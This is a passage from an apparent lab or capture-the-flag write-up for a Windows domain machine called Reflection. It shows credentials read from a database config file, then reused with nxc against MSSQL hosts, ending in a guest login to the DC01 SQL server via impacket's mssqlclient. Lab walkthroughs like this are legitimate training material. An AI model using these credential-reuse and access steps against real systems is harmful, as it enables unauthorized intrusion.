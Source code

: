 ![alt text](<../assets/images/Screenshot_2025-02-04_21_02_31.png>)

and boom new creds

    ➜  Reflection cat prod_db.conf 
    user=web_prod
    password=Tribesman201
    db=prod# 

and get mssql creds at DC

    ➜  Reflection nxc mssql hosts.txt -u "web_prod" -p "Tribesman201" --local-auth 
    MSSQL       10.10.129.245   1433   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:reflection.vl)
    MSSQL       10.10.129.246   1433   MS01             [*] Windows Server 2022 Build 20348 (name:MS01) (domain:reflection.vl)
    MSSQL       10.10.129.245   1433   DC01             [+] DC01\web_prod:Tribesman201 
    MSSQL       10.10.129.246   1433   MS01             [-] MS01\web_prod:Tribesman201 (Login failed for user 'web_prod'. Please try again with or without '--local-auth')

again we got access as Guest but its another mssql server

    ➜  Reflection python3 /opt/impacket/examples/mssqlclient.py reflection.vl/web_prod:'Tribesman201'@DC01
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
    [*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
    [!] Press help for extra shell commands
    SQL (web_prod  guest@master)> 
